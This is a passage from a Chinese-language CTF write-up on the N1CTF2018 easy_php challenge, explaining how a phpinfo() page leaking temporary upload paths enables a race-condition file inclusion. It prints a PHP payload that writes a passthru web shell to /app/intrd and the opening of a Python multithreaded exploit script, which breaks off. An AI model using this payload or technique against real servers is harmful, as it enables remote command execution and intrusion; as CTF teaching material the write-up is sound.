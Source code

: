 phpinfo直接给出了临时文件的文件名与绝对路径
 
这也是为什么会导致文件包含getshell
 
当然临时文件在上传结束后就会很快消失
 
所以我们必须快速访问，即条件竞争包含该文件
 
再触发其中代码，写一个shell
 
例如：
 
```php
<?php $c=fopen('/app/intrd','w');fwrite($c,'<?php passthru($_GET["f"]);?>');?>
```
 
我们利用python不断伪造上传包，再根据phpinfo()返回的路径名去包含文件
 
一旦条件竞争成功，包含该文件即会触发写文件
 
在/app/目录下的intrd文件里写进我们的shell
 
然后即可达成getshell的目的
 
这里附上国外大哥的exp脚本
 
```python
## PHP : Winning the race condition vs Temporary File Upload - PHPInfo() exploit
# Alternative way to easy_php @ N1CTF2018, solved by intrd & shrimpgo - p4f team
# @license Creative Commons Attribution-ShareAlike 4.0 International License - http://creativecommons.org/licenses/by-sa/4.0/

## passwords.txt payload content
# <?php $c=fopen('/app/intrd','w');fwrite($c,'<?php passthru($_GET["f"]);?>');?>


import sys,Queue,threading,hashlib,os, requests,  pickle, os.path, re
from subprocess import Popen, PIPE, STDOUT

NumOfThreads=50
queue = Queue.Queue()

class checkHash(threading.Thread):
	def __init__(self,queue):
		threading.Thread.__init__(self)
		self.queue=queue
	def run(self):
		i=0
		while True:
			self.clear=self.queue.get()
			passtry = self.clear
			if passtry != "":

				padding="A" * 5000

				cookies = {
				    'PHPSESSID': 'o99quh47clk8br394298tkv5o0',
				    'othercookie': padding
				}

				headers = {
				    'User-Agent': padding,
				    'Pragma': padding,
				    'Accept': padding,
				    'Accept-Language': padding,
				    'DNT': '1'
				}

				files = {'arquivo': open('passwords.txt','rb')}

```

[0]: https://img2.tuicool.com/nIFNNr6.jpg 
[1]: https://img0.tuicool.com/2iaY7rb.jpg 
[2]: https://img2.tuicool.com/Yfiqqmz.jpg 
[3]: https://img1.tuicool.com/fqee6ji.jpg 